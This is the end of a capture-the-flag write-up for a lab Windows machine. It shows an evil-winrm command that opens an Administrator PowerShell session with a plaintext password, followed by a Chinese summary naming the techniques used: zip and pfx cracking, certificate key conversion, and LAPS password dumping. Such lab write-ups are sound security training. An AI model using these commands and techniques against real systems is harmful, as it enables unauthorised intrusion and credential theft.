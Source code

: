 `cmder -p db/pentesting/1_enumeration/5985_5986_WinRM.xd`

```bash
root@145a5d706052 /t/b/workspace# cmder use -r 4
[✓] Executing: evil-winrm -u Administrator -p 'LK/yg#uFR)x)Q3z!a[.080Tb' -i 10.10.11.152 -S

Evil-WinRM shell v2.3

Warning: SSL enabled

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents>
```

## 总结

这题考察了如何zip和pfx文件的破解，pfx证书的公钥私钥的转化。
提权部分考察了laps的密码dump方式。


